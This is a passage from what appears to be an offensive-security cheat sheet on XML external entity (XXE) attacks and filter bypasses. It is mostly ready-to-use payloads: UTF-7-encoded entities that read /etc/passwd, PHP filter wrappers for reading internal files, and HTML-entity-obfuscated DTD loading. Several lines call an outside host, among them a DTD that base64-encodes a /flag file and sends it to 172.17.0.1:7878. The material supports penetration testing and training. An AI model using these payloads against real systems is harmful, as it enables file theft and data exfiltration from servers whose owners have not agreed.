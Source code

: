 ```markup
<!xml version="1.0" encoding="UTF-7"?-->
+ADw-+ACE-DOCTYPE+ACA-foo+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-example+ACA-SYSTEM+ACA-+ACI-/etc/passwd+ACI-+AD4-+ACA-+AF0-+AD4-+AAo-+ADw-stockCheck+AD4-+ADw-productId+AD4-+ACY-example+ADs-+ADw-/productId+AD4-+ADw-storeId+AD4-1+ADw-/storeId+AD4-+ADw-/stockCheck+AD4-
```

```markup
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

### File:/ Protocol Bypass

If the web is using PHP, instead of using `file:/` you can use **php wrappers**`php://filter/convert.base64-encode/resource=` to **access internal files**.

If the web is using Java you may check the [**jar: protocol**](xxe-xee-xml-external-entity.md#jar-protocol).

### HTML Entities

Trick from [**https://github.com/Ambrotd/XXE-Notes**](https://github.com/Ambrotd/XXE-Notes)  
You can create an **entity inside an entity** encoding it with **html entities** and then call it to **load a dtd**.  
Note that the **HTML Entities** used needs to be **numeric** \(like [in this example](https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity%28true,'Numeric%20entities'%29&input=PCFFTlRJVFkgJSBkdGQgU1lTVEVNICJodHRwOi8vMTcyLjE3LjAuMTo3ODc4L2J5cGFzczIuZHRkIiA%2B)\).

```markup
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3E;" >%a;%dtd;]>
<data>
    <env>&exfil;</env>
</data>
```

DTD example:

```markup
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://172.17.0.1:7878/bypass.xml?%data;'>">
%abt;
%exfil;
```

## PHP Wrappers

### Base64

